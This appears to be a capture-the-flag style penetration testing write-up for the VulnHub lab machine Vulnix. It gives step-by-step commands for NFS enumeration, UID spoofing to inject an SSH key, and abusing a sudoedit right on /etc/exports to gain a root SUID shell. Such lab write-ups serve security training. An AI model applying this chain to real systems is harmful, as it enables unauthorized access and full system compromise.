

# Vulnix — Penetration Testing Report

[📖 قراءة التقرير بالعربية](README_AR.md) | [English Version](README.md)
[📄 Original Report File (PDF)](./Vulnix.pdf)

---

## 📋 Overview & Metadata

| Attribute | Details |
| :--- | :--- |
| **Target Machine** | Vulnix (VulnHub) |
| **Target IP** | `192.168.1.132` |
| **Attacker OS** | Kali Linux |
| **Difficulty** | Intermediate |
| **Assessment Type** | Network Penetration Test |
| **Core Vulnerabilities** | Overly Permissive NFS Export (`/home/vulnix`), UID Spoofing for SSH Key Injection, Dangerous `sudoedit` Privilege on `/etc/exports` |
| **Initial Foothold** | SSH Key Injection via Mounted NFS Share |
| **Privilege Escalation** | `sudoedit /etc/exports` -> Export `/` with `no_root_squash` -> Root SUID Shell |

---

## 🎯 Attack Chain



---

## 🛠️ Step-by-Step Walkthrough

### Phase 1: Reconnaissance & NFS Enumeration

Scan target with Nmap:
```bash
nmap -sV -sC -p- 192.168.1.132
```
Active services: SSH (22), SMTP (25), Finger (79), RPCbind (111), NFS (2049).

Query available NFS exports:
```bash
showmount -e 192.168.1.132
```
Output:
```text
/home/vulnix (everyone)
```

### Phase 2: UID Spoofing & SSH Key Injection

1. Mount the remote NFS share:
   ```bash
   mkdir /mnt/vulnix
   mount -t nfs 192.168.1.132:/home/vulnix /mnt/vulnix
   ```
2. Inspect directory ownership:
   ```bash
   ls -nd /mnt/vulnix
   ```
   The owner UID is `2008`.
3. Create a local user on Kali with UID `2008`:
   ```bash
   useradd -u 2008 tempuser
   ```
4. As `tempuser`, generate an SSH key and inject it into the mounted share:
   ```bash
   mkdir /mnt/vulnix/.ssh
   cat ~/.ssh/id_rsa.pub > /mnt/vulnix/.ssh/authorized_keys
   chmod 600 /mnt/vulnix/.ssh/authorized_keys
   ```
5. Connect via SSH as user `vulnix`:
   ```bash
   ssh vulnix@192.168.1.132
   ```
   Initial access achieved!

### Phase 3: Privilege Escalation via Sudoedit /etc/exports

Check sudo permissions:
```bash
sudo -l
```
Output:
```text
User vulnix may run the following commands on vulnix:
    (root) NOPASSWD: /usr/bin/sudoedit /etc/exports
```

1. Edit `/etc/exports`:
   ```bash
   sudoedit /etc/exports
   ```
2. Append a line exporting the entire root filesystem with root squash disabled:
   ```text
   / *(rw,sync,no_root_squash,no_subtree_check)
   ```
3. Restart or reload exports.
4. On Kali Linux, mount the root filesystem:
   ```bash
   mkdir /mnt/rootfs
   mount -t nfs 192.168.1.132:/ /mnt/rootfs
   ```
5. Copy `/bin/bash` into the mount and set the SUID bit:
   ```bash
   cp /bin/bash /mnt/rootfs/tmp/rootbash
   chmod +s /mnt/rootfs/tmp/rootbash
   ```
6. On the target machine, execute the SUID binary:
   ```bash
   /tmp/rootbash -p
   whoami
   root
   ```
Full administrative compromise achieved!
